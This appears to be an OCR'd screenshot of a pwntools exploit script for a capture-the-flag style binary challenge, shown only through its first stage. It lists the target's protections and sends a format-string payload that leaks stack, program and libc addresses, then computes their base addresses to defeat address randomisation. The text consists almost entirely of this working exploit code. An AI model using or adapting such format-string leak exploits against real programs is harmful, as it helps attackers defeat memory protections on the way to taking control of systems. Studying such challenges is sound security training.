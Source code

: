 ```python
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
#brva 0x17a0
brva 0x17c3
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'vulnerability:\n', payload)


io = start()

#################################################
#### LEAK ADDRESSES AND CALCULATING OFFSETS #####
#################################################

send_fmt('%3$p|%151$p|%150$p')

io.recvuntil(b'Your input is:')
io.recvline()
leaks = io.recvline().strip().split(b'|')

info(leaks)
rbp_addr    = int(leaks[2], 16)-0x50
exe.address = int(leaks[1], 16)-0x195a
libc.address= int(leaks[0], 16)-0x10e297

success(f'RBP  Address   : {rbp_addr:#x}')
success(f'EXE  BASE Addr : {exe.address:#x}')
success(f'LIBC BASE Addr : {libc.address:#x}')
```